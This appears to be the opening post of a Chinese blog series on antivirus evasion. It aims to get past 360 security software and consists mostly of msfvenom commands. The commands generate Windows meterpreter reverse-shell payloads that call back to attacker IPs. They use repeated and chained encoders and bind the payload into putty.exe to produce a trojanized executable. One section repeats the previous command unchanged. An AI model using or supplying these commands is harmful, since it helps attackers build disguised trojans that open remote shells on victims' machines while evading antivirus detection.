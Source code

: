 ```yaml
---
layout: mypost
title: "免杀的艺术-开篇"
categories: [木马免杀]
---
```


## 前言

新的一个板块吧，我能写多少写多少吧，希望有朝一日能过了 360 核晶，然后其实也带大家一块去学习了汇编，逆向的一些知识，这部分的知识会在咱们免杀这一部分逐渐的派上用场，同时会加一些实战的例子供大家参考，一起去分析病毒样本

免杀，也就是反病毒（AntiVirus）与反间谍（AntiSpyware）的对⽴⾯，英⽂为  
Anti-AntiVirus（简写Virus AV），逐字翻译为“反-反病毒”，翻译为“反杀毒技  
术”

## MSF自编码

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.57.128 lport=4434 -e x86/shikata_ga_nai -b "\x00" -i 19 -f exe >cat.exe
```

## MSF自捆绑免杀

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -x putty.exe -f exe -o payload3.exe
```

## MSF自捆绑编码免杀

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -x putty.exe -f exe -o payload3.exe
```

## MSF多重编码免杀

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 14 LHOST=192.168.8.124 LPORT=1122 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 13 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -b "&" -i 4 -f raw | msfvenom -a x86 --platform windows -e cmd/powershell_base64 -i 10 -x putty.exe -k -f exe > shell.exe
```
